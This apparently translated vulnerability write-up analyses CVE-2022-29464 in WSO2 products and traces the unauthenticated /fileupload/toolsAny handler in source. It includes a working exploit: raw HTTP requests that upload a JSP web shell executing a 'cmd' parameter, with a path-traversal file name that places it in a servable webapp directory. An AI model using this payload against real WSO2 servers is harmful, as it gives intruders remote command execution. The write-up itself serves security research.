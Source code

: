 # WSO2 fileupload any file upload vulnerability CVE-2022-29464

## Vulnerability Description

CVE-2022-29464 is a serious vulnerability in WSO2 discovered by Orange Tsai. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">WSO2 API Manager 2.2.0 and above</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">WSO2 Identity Server 5.2.0 and above</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">WSO2 Identity Server Analytics 5.4.0, 5.4.1, 5.5.0, 5.6.0</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">WSO2 Identity Server as Key Manager 5.3.0 and above</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">WSO2 Enterprise Integrator 6.2.0 and above</span>

## Environment construction

[https://github.com/wso2/product-apim/releases/download/v4.0.0/wso2am-4.0.0.zip](https://github.com/wso2/product-apim/releases/download/v4.0.0/wso2am-4.0.0.zip)

[https://github.com/wso2/product-apim/archive/refs/tags/v4.0.0.zip](https://github.com/wso2/product-apim/archive/refs/tags/v4.0.0.zip)

## Vulnerability reappears

After downloading releases, enter the bin directory, execute the api.manager.sh file, and enable debug to facilitate remote debugging.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650767358343-2616cdd3-9166-4445-ad9a-4ea0277e1736.png)

Open product-apim-4.0.0, download dependencies, connect to Debug for debugging and analysis

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650804508335-ad372814-53fb-4c65-bb31-6197790a97a5.png)

After running, visit localhost:9443. The build is completed as follows! [img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650767529092-33b5d581-f964-4f82-a614-29584a71b160.png)

In the configuration file identity.xml we can see that there is no permission authentication in the route `/fileupload`, and the corresponding Servlet is FileUploadServlet

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650801767796-769caf29-8c4c-4b39-940d-f8cdb15f089d.png)

The file is uploaded as a POST request, and the corresponding processing method is `doPost (org.wso2.carbon.ui.transports.FileUploadServlet#doPost)`

```java
protected void doPost(HttpServletRequest request,
                          HttpServletResponse response) throws ServletException, IOException {

        try {
            fileUploadExecutorManager.execute(request, response);
        } catch (Exception e) {
            String msg = "File upload failed ";
            log.error(msg, e);
            throw new ServletException(e);
        }
    }
```

Continue downward and skip the process of calling the method

```java
execute:55, ToolsAnyFileUploadExecutor (org.wso2.carbon.ui.transports.fileupload)
executeGeneric:104, AbstractFileUploadExecutor (org.wso2.carbon.ui.transports.fileupload)
execute:436, FileUploadExecutorManager$CarbonXmlFileUploadExecHandler (org.wso2.carbon.ui.transports.fileupload)
startExec:320, FileUploadExecutorManager$FileUploadExecutionHandlerManager (org.wso2.carbon.ui.transports.fileupload)
execute:127, FileUploadExecutorManager (org.wso2.carbon.ui.transports.fileupload)
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650801837586-39bf1075-e0d5-4932-a808-e7f0e397b164.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650802004637-1ac012b2-2978-41cb-bf15-13c863457ee3.png)

Finally, we came to the location where the vulnerability occurred `org.wso2.carbon.ui.transports.fileupload.ToolsAnyFileUploadExecutor#execute`

Here we construct the request package and upload the file

```java
POST /fileupload/toolsAny HTTP/1.1
Host: localhost:9443
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 729
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0

--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="1.jsp"; filename="1.jsp"

<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650803224176-dbe2a392-a7b5-468a-bc6f-da381ffe0d49.png)

When uploading, the file name is 1.jsp. The target of successfully uploading will return the uuid value. During the debugging process, we can find that the file is uploaded in a certain directory.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650803654297-7c813794-2c58-4f63-aa8d-fac097a5bb90.png)

```php
public class ToolsAnyFileUploadExecutor extends AbstractFileUploadExecutor {

	@Override
	public boolean execute(HttpServletRequest request,
			HttpServletResponse response) throws CarbonException, IOException {
		PrintWriter out = response.getWriter();
        try {
        	Map fileResourceMap =
                (Map) configurationContext
                        .getProperty(ServerConstants.FILE_RESOURCE_MAP);
        	if (fileResourceMap == null) {
        		fileResourceMap = new TreeBidiMap();
        		configurationContext.setProperty(ServerConstants.FILE_RESOURCE_MAP,
                                             fileResourceMap);
        	}
            List<FileItemData> fileItems = getAllFileItems();
            //String filePaths = "";

            for (FileItemData fileItem : fileItems) {
                String uuid = String.valueOf(
                        System.currentTimeMillis() + Math.random());
                String serviceUploadDir =
                        configurationContext
                                .getProperty(ServerConstants.WORK_DIR) +
                                File.separator +
                                "extra" + File
                                .separator +
                                uuid + File.separator;
                File dir = new File(serviceUploadDir);
                if (!dir.exists()) {
                    dir.mkdirs();
                }
                File uploadedFile = new File(dir, fileItem.getFileItem().getFieldName());
                try (FileOutputStream fileOutStream = new FileOutputStream(uploadedFile)) {
                    fileItem.getDataHandler().writeTo(fileOutStream);
                    fileOutStream.flush();
                }
                response.setContentType("text/plain; charset=utf-8");
                //filePaths = filePaths + uploadedFile.getAbsolutePath() + ",";
                fileResourceMap.put(uuid, uploadedFile.getAbsolutePath());
                out.write(uuid);
            }
            //filePaths = filePaths.substring(0, filePaths.length() - 1);
            //out.write(filePaths);
            out.flush();
        } catch (Exception e) {
            log.error("File upload FAILED", e);
            out.write("<script type=\"text/javascript\">" +
                    "top.wso2.wsf.Util.alertWarning('File upload FAILED. File may be non-existent or invalid.');" +
                    "</script>");
        } finally {
            out.close();
        }
        return true;
	}

}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650803736519-90e242b2-1478-4966-8bc5-5ef86402537c.png)

But the file name is controllable. During the splicing process, we traverse the directory by controlling the file name, upload the file to the location we need, and find the directory that can parse the jsp file

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650803934233-733ce8ed-97da-4ece-acbf-c535d4704b34.png)

Construct the request package and upload it to this directory by controlling the file name.

```java
POST /fileupload/toolsAny HTTP/1.1
Host: localhost:9443
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 729
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0

--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"; filename="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"

<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650804126298-f5cf8a01-075b-4c27-889a-8ba2eb5664ab.png)

Access the uploaded file, `/authenticationendpoint/xxx.jsp?cmd=ls`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650804305810-0c37ec79-0f9d-4eaa-9908-c223dca40471.png)